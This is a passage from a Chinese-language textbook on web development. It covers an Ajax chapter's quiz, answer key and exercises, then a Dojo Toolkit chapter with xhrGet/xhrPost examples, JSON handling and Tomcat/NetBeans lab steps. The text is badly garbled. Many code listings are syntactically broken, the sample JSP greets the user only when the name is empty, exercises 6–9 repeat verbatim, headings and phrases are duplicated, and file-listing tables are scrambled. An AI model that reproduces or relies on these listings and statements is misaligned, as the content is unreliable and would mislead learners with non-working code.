- 16. 最后，创建最后一个 PHP 文件 `getCarModelsXML.php`，使其看起来与列表 5.6.9 所示。这段代码使用了我们在列表 5.6.4 中使用的 PHP DOM 和 XPath 实现。但这次我们使用 XPath 来查找 `<make>` 标签。对于 `validateYear.php`，`carSearch.js` 中的 `ajax.Validator` 将返回的消息（如果不是 `"OK"`）设置为显示消息的 `<span></span>` 标签的 `innerHTML`。

直接赋值给 DOM 元素的 `innerHTML` 属性，它是文本节点的子。

Ajax 和类 Ajax 技术的未来是光明的。它只会变得越来越越来越有趣。例如，在本章中，我们还讨论了一种名为 HTTP 流（HTTP Streaming）的新颖技术，数据被推送到客户端——这与 HTTP 的的基础模型相反。Dojo JavaScript 工具包的共同创建者 Alex Russell^28 提出了 Comet 一术语来描述这种演进的基于 Web 的推送架构，并在该名称下它获得了最多的关注和开发。Comet 这个词是 Ajax 的双关——Ajax 和 Comet 都是常见的家用清洁剂。一些使用 Comet 的知名应用包括 Meebo^29 Web 聊天应用以及 Gmail 内置的聊天功能^30。

## 5.8 自测题

- 1. Ajax 术语最初是一个缩写。它代表什么？
  - a. Asynchronous JavaScript and XML（异步 JavaScript 和 XML）
  - b. Another Java Abstraction for X-Windows（用于 X-Windows 的另一种 Java 抽象）
  - c. Another Java and XML Library（另一个 Java 和 XML 库）
  - d. Abstract JSON and XML（抽象 JSON 和 XML）
- 2. 谁提出了 Ajax 术语？
  - a. Douglas Crockford
  - b. Bill Gates
  - c. Jesse James Garrett
  - d. James Gosling
- 3. 传统的 HTTP 请求/响应模型是
  - a. 同步的（Synchronous）
  - b. 异步的（Asynchronous）
- 4. 在所有浏览器中，`innerHTML` 通常比 W3C DOM 方法快。
  - a. True
  - b. 错误
- 5. `innerHTML` 是 W3C DOM 标准。
  - a. 正确
  - b. 错误
- 6. `XMLHttpRequest` 是 W3C 标准。
  - a. 正确
  - b. 错误
- 7. `XMLHttpRequest` 是执行异步服务器请求的唯一跨平台客户端方法。
  - a. 正确
  - b. 错误
- 8. 在所有浏览器中，创建 `XMLHttpRequest` 对象实例是相同的。
  - a. 正确
  - b. 错误
- 9. 在 Internet Explorer 5 和 6 版本中，使用哪个对象向服务器发送异步请求？
  - a. `ActiveX`
  - b. `XMLHttpRequest`
  - c. `XMLHTTP`
  - d. `window`
- 10. 哪个方法不是 `XMLHttpRequest` 的成员？
  - a. `open()`
  - b. `send()`
  - c. `cancel()`
  - d. `setRequestHeader()`

## 第 5 章 Web 远程技术——Ajax 中的 A

- 11. 哪一个 `XMLHttpRequest` 方法实际上发送了请求？
  - a. `getAllResponseHeaders()`
  - b. `makeRequest()`
  - c. `open()`
  - d. `send()`
- 12. 如果 `req` 是 `XMLHttpRequest` 对象的引用，以下哪项正在使用 `XMLHttpRequest` 进行同步请求？
  - a. `req.open("GET", "http://myserver/getSomething", false);`
  - b. `req.open("GET", "http://myserver/getSomething", true);`
  - c. `req.open("GET", "http://myserver/getSomething")`
- 13. 下列哪个 `send()` 的调用是无效的？
  - a. `send()`
  - b. `send(null)`
  - c. `send("x=1&y=2")`
- 14. 使用 `XMLHttpRequest` 发送表单 POST 请求时，必须设置什么 MIME 类型？
  - a. `application/octet-stream`
  - b. `application/xhtml+xml`
  - c. `application/x-www-form-urlencoded`
- 15. 应该检查哪个 `readyState` 和 `status` 组合以判断异步请求已完成？
  - a. 3 和 304
  - b. 2 和 200
  - c. 4 和 200
  - d. 5 和 404
- 16. `readyState` 的中间值在不同浏览器之间不可靠，因为某些浏览器没有设置 Loading 或 Loaded 状态，或者只设置一次 Interactive 状态。
  - a. 正确
  - b. 错误
- 17. 下列哪个 MIME 类型会导致浏览器自动解析 XML 响应？
  - a. `text/xml`
  - b. `text/javascript`
  - c. `text/plain`
  - d. `text/html`
- 18. JSON 是什么缩写？
  - a. JavaScript Over Network
  - b. JavaScript Object Notation（JavaScript 对象表示法）
  - c. Java Simple Object Notation
- 19. 哪个 JavaScript 方法主要用于 JSON？
  - a. `eval()`
  - b. `test()`
  - c. `run()`
  - d. `exec()`
- 20. `XMLHttpRequest` 的哪个字段将填充 JSON 响应？
  - a. `responseXML`
  - b. `responseText`
  - c. `response`
  - d. `statusText`
- 21. 下列哪项不是有效的 JSON？
  - a. `{ "name": "Bob" }`
  - b. `{ "user": { "name": "Bob" } }`
  - c. `{ "name": "Bob", "getName": function() { return this.name } }`
- 22. `XMLHttpRequest` 对象可以同时发送 GET 和 POST 请求。
  - a. 正确
  - b. 错误
- 23. `XMLHttpRequest` 对象可以用于上传文件。
  - a. 正确
  - b. 错误
- 24. 在处理 `XMLHttpRequest` 时，浏览器会显示视觉进度指示器。
  - a. 正确
  - b. 错误
- 25. 你可以在你的网站中使用 `XMLHttpRequest` 直接向任何其他网站发送请求。
  - a. 正确
  - b. 错误

# 自测题答案

1. a 2.c 3.a 4.a 5.b 6.b 7.b 8.b 9.c 10.c 11.d 12.a 13.a 14.c 15.c 16.a 17.a 18.b 19.a 20.b 21.c 22.a 23.b 24.b 25.b

## 5.9 练习

- 1. 什么是 Web 远程？
- 2. W3C 为标准化 `XMLHttpRequest` 背后的概念采取了哪些步骤？
- 3. 描述使用 `XMLHttpRequest` 涉及步骤。
- 4. 编写代码实例化适用于所有现代浏览器的 `XMLHttpRequest` 实例。如果浏览器不支持 `XMLHttpRequest`，请适当处理该情况。
- 5. 比较并对比本章涵盖的不同响应格式：纯文本、HTML、XML 和 JSON。为一种格式描述一种你会选择该格式而非其他格式的场景。
- 6. 编写 JavaScript 代码使用 `XMLHttpRequest` 发送异步 GET 请求并处理响应。不需要服务器端代码，但需要包含关于服务器返回数据的注释。
- 7. 编写 JavaScript 代码使用 `XMLHttpRequest` 发送异步 GET 请求并处理响应。不需要服务器端代码，但需要包含关于服务器返回数据的注释。
- 8. 编写 JavaScript 代码使用 `XMLHttpRequest` 发送异步 GET 请求并处理响应。不需要服务器端代码，但需要包含关于服务器返回数据的注释。
- 9. 编写 JavaScript 代码使用 `XMLHttpRequest` 发送异步 GET 请求并处理响应。不需要服务器端代码，但需要包含关于服务器返回数据的注释。

W3C 工作草案。跨站请求访问控制。2008年2月14日。  
`http://www.w3.org/TR/access-control/`

W3C 工作草案。`XMLHttpRequest` 对象。2007年10月26日。  
`http://www.w3.org/TR/XMLHttpRequest/`

Zakas, Nicholas C., Jeremy McPeak, and Joe Fawcett 2007. 专业 Ajax，第2版。印第安利斯，印州：Wiley。

# 第 6 章

## Dojo Toolkit

**章节目标**

- 讨论如何使用 Dojo。
- 演示使用 JSON 的 Ajax Web 应用程序。

## 6.1 Dojo Toolkit

有很多库/框架可以帮助 Ajax Web 开发并抽象浏览器的差异。其中闻名的有基于 JavaScript 的 Dojo Toolkit、Prototype 框架和 Direct Web Remoting（DWR）框架；Yahoo! UI 库（YUI）以及基于 Ajax 的 Google Web Toolkit（GWT）。

Dojo 是一个流行的、开源的、可移植的 DHTML JavaScript 工具包，它让 Ajax 开发者能够更容易构建 Ajax 请求。为什么 Dojo 被称为工具包（toolkit）？Dojo 不仅拥有用于 JavaScript 和 Ajax Web 开发的丰富库，还提供了一个广泛、可重用且可自定义的组件系统，支持用户定义组件、增强的事件处理系统以及简化客户端与服务器之间数据传输的 I/O 系统。

Dojo 抽象了浏览器之间的许多差异，因此 Dojo 是可移植的。

例如，由于 Dojo 的组件系统运行在标准 HTML 之上，Dojo 开发者可以在其现有的网页中添加具有优雅降级功能的组件，而无需担心 JavaScript 被禁用或与旧版浏览器兼容性的问题，这样他们仍然可以使用底层的 HTML 功能浏览页面。

Dojo 是一个面向跨浏览器的工具，支持 IE、Firefox 和 Safari 等各种 Web 浏览器，并解决了普通 JavaScript 中的 Ajax 兼容性问题。

Dojo 有了一了一强大的 JavaScript 库，并以包（packages）的形式组织。Dojo 0.4 使用分层结构的库层次级在包中组织所有的 Dojo 功能。Dojo 0.9 及更高版本（当前为 1.0）简化了结构，使得大多数 Dojo 函数（Dojo 组件、事件、I/O 等）可以在 Dojo 核心基础包中可用；dijit、t 和 dojo（扩展 Dojo 项目）在 Dojo 核心之上运行。

Dojo 的优势之一是它封装了 `XMLHttpRequest`，使得请求的构建和配置变得简单得多。它让开发者无需详细配置 Ajax `XMLHttpRequest`，也不需要手动解析和处理从服务器返回的响应。Dojo 的另一个优势是其 Dojo 核心和 dijit 命名空间包中提供的 Web 系统。例如，你可以轻松地将普通的 HTML 表单组件（如输入框）转换为具有许多新功能的 Dojo 类型组件。例如，`dojoType` 属性启用了下方的 JavaScript 输入框：

```html
Departure Date: <input type="text" length="10" name="Leave_Date">

dojoType="djit.form.TextBox/"
```

这会自动弹出一个当前月的日历，并高亮今天的日期。当输入框获得焦点时，用户可以选择一个日期，选定的日期将自动输入到文本框。

Dojo 组件提供了比 JavaScript 更高级的验证和辅助功能。例如，Dojo 组件和事件处理是既灵活又强大的。不仅是组件，函数也可以触发事件，而且一个事件源可以有多个事件处理器。完整的 Dojo 参考文档可以在 `http://www.dojotoolkit.org` 找到。

与其对 Dojo 进行正式介绍，你将在这里通过两个简单的 Dojo Ajax 请求示例开始。（一个使用 Dojo 的 `xhrGet` 函数从服务器获取数据并部分更新 HTML 页面，而无需刷新整个页面，就像 Ajax 请求一样；另一个使用 Dojo 的 `xhrPost` 方法将 HTML 表单数据提交到服务器，并获取服务器的响应来部分更新客户端页面。）

## 6.1.2 使用 Dojo 进行 Ajax XMLHttpRequest

现在，让我们来看 `data.txt` “Hello world” Dojo Ajax 示例。

假设文件 `data.txt` 中有一文本语句 “Welcome to Ajax”。Web 应用程序下载此文本文件的内容，将其放在 HTML `div` 标签“put_here”占位符中并显示。假设 Dojo 核心包 `dojo.js` 库已安装在 Web 服务器（如 Apache Tomcat）的 webapps 目录下的根目录 dojo 目录。如果你浏览此页面，“Welcome to Ajax”将显示在 HTML 页面上。如前所述，dojo 安装目录中还有三个包：dijit、dojos 和 util。

以下是带有 `xhrGet` Ajax 请求的 HTML 文件。

```html
<html>
<head>
  <title>Dojo Ajax</title>
  <script type="text/javascript" src="dojo/dojo/dojo.js"></script>
  <script>
    function xhrGet(
      dojo.xhrGet({
        url: "data.txt",

        // 当服务器返回成功响应时，调用 load 函数
        server:

        // 它将响应插入 HTML div "put_here" 占位符中
        load: function(response, ioArgs) {
          dojo.body.byId("put_here").innerHTML = response;
          return response;
        },

        // 如果服务器没有正确响应，error 函数将显示错误消息
        error: function(response, ioArgs) {
          console.error("HTTP status: ", ioArgs.status);
        }
      });
    );

    // 当 Dojo 启动时调用
    dojo.addOnLoad(xhrGet);
  </script>
</head>
</html>
```


```html
</script>

</head>

<body>

  <div id="put_here"></div>

</body>

</html>
```

前一个示例中的`dojo.byId(String)`函数的用法与 IE 中的`document.all.id`或标准 DOM 中的`document.getElementById(id)`相同。你使用此方法定位 HTML 文档中的“put_here”部分，并将响应内容插入 HTML 页面的`innerHTML`占位符中。示例中的`dojo.addOnLoad(<function>)`允许在 Dojo 启动时调用指定的函数，以此此类。

下一个示例显示了 HTML 文件中的 Dojo xhrPost Ajax。请求被发送到名为`response.jsp`的 JSP，它将根据提供的用户名对 Ajax xhrPost 表单请求做出响应并显示“Hello <用户名>!”：

```html
<html>

<head>

<title>Hello User</title>

<script language="javascript" src="/dojo/dojo/dojo.js"></script>

<script language="javascript">

function onclick() {

var cl={

// 解析 POST 请求的页面

url: "response.jsp",

// 想要提交的表单

form: 'myForm',

// 如果没有错误，加载此函数

load: function (message) {

midv = dojo.byId("Message");

midiv.innerHTML = "<div style='color:green\">"+message+"</div>";

},

// 如果发生错误，调用此函数

error: function (error) {

console.error('Error: ', error);

}

}

}

dojo.xhrPost(cl);

}

</script>

</head>

<body>

<span>

<form method='post' id='myForm">

<h3>使用 xhrpost 的示例</h3><br>

输入名称: <input type='text' length='20' name='myName' onkeyup='onclick();'

</form>

</span>

</body>

</html>
```

## 6.2 使用 JSON 数据的 Dojo xhrGet 请求

```html
<div id='Message'></div>

<span>

<body></body>

</html>
```

在此示例中，你将所有属性封装在一个对象`c1`中，并将其传递给`xhrPost()`函数。当用户在输入框中输入用户名时，用户名将随`"myName"`对象一起传递。一旦 URL 目标获取到请求，服务器上的`response.jsp`将用问候语“Hello <username>”进行响应，其中 username 是在客户端输入的用户名。

```java
String name = request.getParameter("myName");

if (name != null && name.trim().equals("")) {

    out.print("Hello " + name + "!");

} else {

    out.print("You didn't enter a name!");

}
```

在这里，`request.getParameter("myName")`获取表单中用户输入的用户名并赋值给变量`name`，并在 JSP 页面上显示问候语。在这个示例中，有两个 JSP 页面；一个用于表单输入，另一个用于响应。

## 6.2 使用 JSON 数据的 Dojo xhrGet 请求

在本节中，你将看到在 Dojo`xhrGet()` Ajax 请求中如何轻松地处理 JSON 数据。Dojo Web 开发者可以从复杂的 Ajax 请求配置和编码任务（如解析和将 JSON 数据转换为 JavaScript 对象）中解放出来。你只需要指定响应以 JSON 格式处理即可。假设服务器上的`ajaxData.txt`文件具有如下 JSON 语法格式的数据：

```json
{
  "Name": "Bill Jones",
  "Education": {
    "Undergraduate": "Physics",
    "Graduate": "CS"
  },
  "Skills": ["Ajax", "Ruby"]
}
```

接下来的 Ajax 请求获取一个 JSON 对象并将解析后的信息放入 id='json-data' 的`<div>`中。`xhrGet()`函数接收 JSON 格式参数，包括服务器 URL、数据格式处理程序以及一个加载函数（当响应成功返回时进行回调）。

```html
<html

<head>

<title>Dojo xhrGet</title>

<!-- Dojo Initialize -->

<script src='/dojo/dojo/dojo.js' type='text/javascript'></script>

<script language="javascript">

function getJson () {

  dojo.xhrGet(

  url: "http://server/ajaxData.txt",

  handleAs: 'json',

  // 'handleAs': 'JSON' 告诉 Dojo 使用 eval() 函数解析

  // 从 URL 获取的数据，并将其转换为 JavaScript

  // JSON 对象。

  load: function (responseObject) {

    dojo.byId('json-data').innerHTML =

    responseobject.skills[0];

  },

  error: function (error) {

    console.error('Error: ', error);

  }

 })

}

</script>

</head>

<<body>

<div id='json data'></div>

<a href='# onclick='getJson()'> Display JSON data</a>

</body>

</html
```

总结一下：这些简短的示例已经向你说明了为什么人们使用 Dojo 和 JSON 进行异步 XMLHttpRequest 调用的基本概念。

## 示例与实验实践

你将在本节中练习三个动手实验。所有实验都使用 Dojo 工具包进行 Ajax 应用：第一个展示了如何使用 Dojo`xhr()`函数开发 Ajax Web 应用程序从服务器获取数据；第二个展示了如何使用 Dojo`xhrPost()`函数将表单数据发送到服务器并请求服务器用表单数据响应请求；最后一个展示了如何在使用 Dojo 工具包的 Ajax Web 应用程序中使用 JSON 数据。

## 实验 1：在 Ajax 应用中使用 Dojo xhrset

在 NetBeans 6.0 中安装并添加外部 Tomcat 服务器：

参考：http://wiki.netbeans.org/AddExternalTomcat

假设你的电脑上已安装 Apache NetBeans 6.0 和最新的 JDK。在 NetBeans 6.0 中，我们需要外部添加 Tomcat 服务器。让我们来看看 Tomcat 6.0 服务器的配置。

### Tomcat 6.0 设置

你可以运行执行文件来安装 Tomcat 6.0，或者可以将 Tomcat6.0.zip 文件夹提取到驱动器；例如，你可以将其提取到`C:\Tomcat60`。

现在进入你的`Tomcat/conf/`文件夹，用文本编辑器打开`tomcat-users.xml`，并添加分配`manager`角色的用户用户名和密码。

你的`tomcat-users.xml`看起来应该是所示：

```xml
<?xml version='1.0' encoding='utf-8'?>

<tomcat-users>

  <role rolename="manager" />

  <role rolename="standard" />

  <user username="admin" password="mypassword" roles="standard" />

</tomcat-users>
```

这将添加用户名为 "admin"，密码为 "mypassword"。在 NetBeans 6.0 中，我们需要指定这些用户名和密码。

你将使用 JSP 技术构建 Ajax 和 Dojo，工作将在 NetBeans 6.0 IDE 中完成。一旦 Tomcat 服务器安装妥当，打开 NetBeans 6.0 IDE 将 Tomcat 添加为外部服务器。

步骤 1：首先选择 Services（服务）选项，选择 Server（服务器），并右键点击图标以添加服务器。

| Projects | Files | Services |
|---|---|---|
| Databases | | |
| Web Services | | |

步骤 2：选择 Tomcat 6.0。

步骤 3：浏览目录。

步骤 4：点击 Finish（完成）。

### 6.3 示例与实验实践

| 名称 | 修改日期 | 类型 |
|---|---|---|
| build | 10/29/2007 9:26 PM | 文件文件夹 |
| dist | 10/29/2007 7:58 PM | 文件文件夹 |
| vproject | 10/30/2007 2:44 PM | 文件文件夹 |
| src | 10/29/2007 7:53 PM | 文件文件夹 |
| web | 10/31/2007 3:48 AM | 文件文件夹 |

| 文件列表 | 名称 | 修改日期 | 类型 |
|---|---|---|---|
| Documents | | | |
| - | META-INF | | |
| Pictures | WEB-INF | | |
| Media | deproject | | |
| Folders | | | |
| - stylesheet | | | |
| - build | | | |
| - dist | | | |
| - vproject | | | |
| - test | | | |
| - web | | | |
| - META-INF | | | |
| WEB-INF | | | |
| Fragments | | | |

### 6.3 Dojo Toolkit 包

步骤 2：在创建项目文件夹`dooxget`后，你现在要在 NetBeans IDE 创建的 web 文件夹中解压下载的工具包，并将其命名为`index.jsp`；目录结构如下：

```html
); dojo.xhrGet(cl);

</script>

</head>

<body>

<span>

<form method='Get' id='myForm'>

<h3>使用 xhrGet 的示例</h3><br>

<input type="button" value="点击我" onclick='onsub();'>

</form>

<div id='Message'></div>

</span>

</body>

</html>
```

输入代码后，通过点击 Run（运行）➔ Run Main Project 启动服务器。在新打开的默认页面中，你可以看到一个按钮。



## 6.3 示例与实验实践

在同一文件夹下创建一个名为`Hello.txt`的新文件，并将以下内容复制到文本文件中：


### 第 4 步

创建这两个文件后，再次点击 Run → Run Main Project 启动服务器。在新默认页面中，你可以看到一个文本框。如果你点击“点击我”按钮，就会显示 Hello.txt 中的内容。



## 第 6 章 Dojo 工具包

如果你使用的是 Apache Tomcat 服务器来加载页面，请前往`C:\Program Files\Apache Software Foundation\Tomcat 6.0\webapps\ROOT\`并粘贴下载好的 dojo 工具包。

| 名称 | 修改日期 | 类型 | 大小 |
|---|---|---|---|
| admin | | | 新文本文档 (2) |
| ajsample | | | pdf |
| dojo | | | RELEASE-NOTES |
| dojo-0.4.3-ajax | | | response |
| DWR | | | Tomcat |
| WEB-INF | | | tomcat.svg |
| dojspost | | | tomcat-power |
| stylesheet | | | |
| stylesheet-json | | | |
| page | | | |
| ajax | | | |

打开浏览器并访问`http://localhost:8080/dojoxhrGet.jsp`来运行该文件。

## 实验 2：在 Ajax 应用中使用 xhrPost

### 第 1 步

在 NetBeans 启动界面，选择 Select File（选择文件）➔ New Project（新建项目）。



## 6.3 示例与实验实践

将打开一个窗口。选择 Web 和 Web Application 并点击 Next（下一步）继续。在新的对话框中，为项目命名并选择位置。完成后按 Finish（完成）。



你会看到默认页面`index.jsp`。将其重命名为`dojoxpost.jsp`，使目录结构如下：



### 第 2 步

创建项目文件夹`dojpost`后，你可以在 NetBeans IDE 创建的 web 文件夹中解压下载的 Dojo 工具包，并将其命名为`doj`。

| 名称 | 修改日期 | 类型 | 大小 | 标签 |
|---|---|---|---|---|
| build | 10/26/2007 9:20 PM | 文件夹 | | |
| delete | 10/26/2007 7:58 PM | 文件夹 | | |
| project | 10/30/2007 2:46 PM | 文件夹 | | |
| web | 10/31/2007 7:48 AM | 文件夹 | | |
| build | 6/12/2007 7:57 PM | XML 文档 | 4 KB | |

| 名称 | 修改日期 | 类型 | 大小 |
|---|---|---|---|
| dojo | | | |
| META-INF | | | |
| WEB-INF | | | |
| LCKdojpost.jsp | | | |
| dojpost | | | |

### 第 3 步

将以下代码复制到默认页面`index.jsp`中。

```html
<html>

<head>

<title>Hello</title>

<script language="javascript" src="/dojo/dojo/dojo.js"></script>

<script language="javascript">

function onclick() {

    var cl = {

        // 用于解析 POST 请求的页面

        url: "response.jsp",

        // 你想要提交的表单名称

        form: 'myForm',

        // 如果没有错误则加载此函数

        load: function (message) {

            mdiv = dojo.byId("Message");

            mdiv.innerHTML = "<div

style=\"color:green\">"+message+"</div>\n        }

    }
```

```javascript
// 如果发生错误则调用此函数

error: function (error) {

    console.error('Error: ', error);

}

dojo.xhrPost(cl);

    }
```

```html
</script>

</head>

<body>

<span><form method='post' id='myForm'>

<h3>使用 xhrpost 的示例</h3><br>

输入名称：<input type='text' length="20" name='name'

onkeyup='onclick(); />

</form>

<div id='Message'></div>

</span>

</body>

</html>
```


在前面的代码中，你包含了`dojo.js`文件，使用了`tundra`主题以及来自`dijit`包的组件。

输入代码后，点击`Run Project`启动服务器。在新的默认页面中，你可以看到一个文本框。



## 第 6 章 Dojo 工具包

如果你使用的是 Apache Tomcat 服务器加载页面，请前往`C:\Program Files\Apache Software Foundation\Tomcat 6.0\webapps\ROOT\`，并粘贴下载的 Dojo 工具包。

在同一文件夹中创建一个名为`response.jsp`的新文件，并将以下代码复制到其中：

```java
String name = request.getParameter("name");

if (name != null && name.trim().equals("")) {
    out.print("Hello " + name);
} else {
    out.print("You didn't enter a name!");
}
```





### 第 3 步

创建这两个文件后，再次点击`Run → Run Main Project`启动服务器。在新的默认页面中，你可以看到一个文本框。

## 6.3 示例与实验实践

如果你在文本框中输入名称，页面会自动更新。


由于`onkeyup()`代码的存在，页面会响应用户的操作。


由于`onkeyup()`代码的存在，页面会更新用户界面。


## 第 6 章 Dojo 工具包

Dojo 也可以通过 AOL 的内容交付网络（CDN）使用。你需要使用`<src=http://o.aolcdn.com/dojo/1.0.0/dojo/dojo.xd.js>`，而不是在你的服务器上安装 Dojo。

在这个示例中，你使用了`dijit`按钮和`tundra`样式。你也可以通过更改导入链接，从 AOL 的 CDN 导入它：

`@import "http://o.aolcdn.com/dojo/1.0.0/djit/themes/tundra/tundra.css";`

1. 前面的代码使用了`dijit`按钮。要加载该模块，你需要调用`dojo.require`。
2. 在 HTML 页面中，应该指定按钮属性`dojype`。`<button onclick="click" dojype="djit.form.Button" onclick='welcome()'><click me</button>`。

Dojo 预定义了`djConfig`参数，并在`dojo.js`加载时应用它们。

```javascript
djConfig=parseOnLoad="true"
```

启用`onLoad`会告诉 Dojo，在页面加载过程中遍历页面时对`dijit`应用样式。

3. 文件`tundra.css`是`tundra`主题的样式表。要使用`tundra`的样式，请在`body`标签中添加`class="tundra"`。输入代码后，点击`Run → Main Project`启动服务器。在默认页面中，你可以看到一个带有`dijit`和`tundra`样式的按钮。



## 6.3 示例与实验练习

现在，在同一文件夹中创建一个名为`employer.json`的新文件，并将以下内容复制到此 JSON 文件中（它实际上是一个文本文件）：


现在，你可以再次点击`Run → Run Main Project`来启动服务器。如果你点击“Click Me”按钮，将显示`employer.json`中包含的文本。


如果你使用 Apache Tomcat 服务器加载页面，请转到`C:\Program Files\Apache Software Foundation\Tomcat 6.0\webapps\ROOT\`，并将 Dojo 工具包粘贴到那里。

## 第 6 章 Dojo 工具包

| 名称 | 修改日期 | 类型 | 大小 |
|---|---|---|---|
| admin | | 新文本文档 (2) | |
| ajaxexample | | postbind | |
| dojo | | RELEASE-NOTES | |
| dojo-0.4.3-ajax | | response | |
| OW | | tomcat | |
| WEB-INF | | tomcat.svg | |
| dojohost | | tomcat-power | |
| doget-json | | | |
| ajax | | | |

你可以通过浏览`http://localhost:8080/dojoxhrGet.jsp`来运行此应用程序。

## 6.4 总结

Dojo 工具包是一个用于 Ajax 和其他 Web 开发手段的实用且被广泛使用的开发工具。Dojo 支持的包库极大地简化了 JavaScript 代码编写。具体来说，使用 Dojo 构建 Ajax XMLHttpRequest 比使用原生 JavaScript 要容易得多。此外，Dojo 支持一种强大的组件系统，让开发者可以设计自己的组件而不必担心浏览器兼容性问题。用于 Web 客户端和服务器之间传输数据的 JSON 标准也被几乎所有的软件编程语言和脚本语言接受。它减少了 XML 格式数据的解析复杂度。不熟悉 XML DOM API 的人员仍然可以轻松地构建和解析 JSON 数据。本章为读者提供了分步指南，从下载、配置到客户端和服务器端编码，最后是执行。它将帮助你进行实践。

## 6.5 自测题

1. JSON 是一种支持 Ajax 请求的编程语言。  
   a. 正确  
   b. 错误
2. Dojo 是一种服务器端编程语言。  
   a. 正确  
   b. 错误
3. `dojo.io.bind()`在当前版本的 Dojo 中广泛用于处理 Ajax 请求。  
   a. 正确  
   b. 错误
4. `dojo.xhrGet()`可以将表单中的数据发送到 Web 服务器。  
   a. 正确  
   b. 错误
5. `dojo.xhrPost()`只能向服务器发送数据，无法从服务器接收响应。  
   a. 正确  
   b. 错误
6. Dojo 是一个基于 JavaScript 的 Web 开发工具包。  
   a. 正确  
   b. 错误
7. `dojo.xhrGet()`和`dojo.xhrPost()`简化了客户端 Ajax 请求的构建。  
   a. 正确  
   b. 错误
8. Dojo 工具包抽象了 Ajax 请求的浏览器差异。  
   a. 正确  
   b. 错误
9. JSON 解析比 XML 解析容易得多。  
   a. 正确  
   b. 错误
10. Dojo 可以与 JSON 工作。  
    a. 正确  
    b. 错误

## 自测题答案

`1.b 2.b 3.b 4.b 5.b 6.a 7.a 8.a 9.a 10.a`

## 6.6 编程练习

1. 使用 Dojo 工具包创建一个简单的 Web 页面。
2. 使用 Dojo 工具包创建一个 Ajax 请求。
3. 使用 Dojo 工具包创建一个 JSON 对象。
4. 使用 Dojo 工具包创建一个 JSON 响应。
5. 使用 Dojo 工具包创建一个 Ajax 组件。
6. 使用 Dojo 工具包创建一个自定义主题。
7. 使用 Dojo 工具包创建一个自定义事件。
8. 使用 Dojo 工具包创建一个事件监听器。
